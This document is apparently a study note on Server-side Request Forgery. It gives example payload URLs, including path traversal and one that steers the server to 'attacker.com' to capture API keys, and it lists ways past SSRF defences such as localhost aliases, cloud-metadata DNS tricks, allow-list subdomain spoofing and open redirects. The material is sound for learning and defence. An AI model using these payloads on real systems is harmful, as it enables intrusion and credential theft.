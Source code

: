 ```yaml
---
title: Server-side Request Forgery
---
```

_Server-side Request Forgery_ is a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## Types of SSRF

There are two types of SSRF vulnerability:
- a regular SSRF - data is returned to the attacker's screen
- _blind SSRF_ - an SSRF occurs, but no information is returned to the attacker's screen

## Impact
A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas
- Access to customer/organisational data
- Ability to Scale to internal networks
- Reveal authentication tokens/credentials

## Examples

### URL manipulation

The client expects similar request:
```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

By modifying the `url` query param, we might want to access different API endpoints, e.g.: 

```http
# hacker requests
http://website.thm/stock?url=http://api.website.thm/api/user

# client request the server
http://api.website.thm/api/user

# server returns the user data instead of stock information
```

### With [[cybersecurity/knowledge/pentesting/path-traversal]]

The client expects similar request:
```http
http://website.thm/stock?url=/item?id=123
```

Even if we have control over the path, not the whole URL, by modifying the `url` param, we might want to access different API endpoints, e.g.: 

```http
# hacker requests
http://website.thm/stock?url=/../user

# client request the server
http://api.website.thm/api/stock/../user

# server returns the user data instead of stock information
```

### Controlling the server's subdomain
The client expects similar request:
```http
http://website.thm/stock?server=api&id=123
```

```http
# hacker requests
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
                                [-------------------------]

# client request the server
http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123
     [----------------------------]                              [-]

# server returns the user data instead of stock information
```

We can control the server's subdomain to which the request is made (from `server` to `api.website.thm/api/user`). 

The payload ending with `&x=` is used to stop the remaining path from being appended to the end of the URL and turns into parameter itself.

### Forcing webapp to request another server

The attacker can force the webserver to request a server of the attacker's choice. By doing so, we can capture request headers that are sent to the attacker's specified domain. These headers could contain authentication credentials or API keys sent by `website.thm` (that would normally authenticate to `api.website.thm`).

The client expects similar request:
```http
http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123
```

```http
# hacker requests
http://website.thm/stock?url=http://attacker.com/

# webapp requests data from `attacker.com` revealing the API key
```

## Finding a SSRF
SSRF vulnerabilities can be spotted in many different ways. Common examples: 
- A full URL used as a parameter in the address bar
	- `https://website.thm/form?server=http://server.website.thm/store`
- A partial URL such as just the hostname
	- `https://website.thm/form?server=api`
- Path of the URL
	- `https://website.thm/form?dst=/forms/contact`
- In a hidden field in a form

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working payload.

If working with a blind SSRF the output is not reflected back to us, so we'll need an external HTTP logging tool to monitor requests:
- [RequestBin](requestbin.com)
- your own HTTP server
- [[Burp Suite]]'s Collaborator client.

## Bypassing SSRF defenses

Security-savvy developers aware of the SSRF may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, as follows:

### *Deny List*

All requests are accepted apart from resources specified in a list or matching a particular pattern. 

A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. 

A specific endpoint to restrict access is the `localhost`/`127.0.0.1`, which may contain server performance data or further sensitive information.

Attackers can bypass a Deny List by using alternative localhost references such as `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001` or subdomains that have a DNS record which resolves to `127.0.0.1` such as `127.0.0.1.nip.io`.

Also, in a cloud environment, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address `169.254.169.254`.

### *Allow List*

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, eg. a rule that an URL used in a parameter must begin with `https://website.thm`. 

An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`. The application logic would now allow this input and let an attacker control the internal HTTP request.

### Open Redirect

An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address, e.g `https://website.thm/link?url=https://tryhackme.com`. This endpoint was created for statistics purposes. 

But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

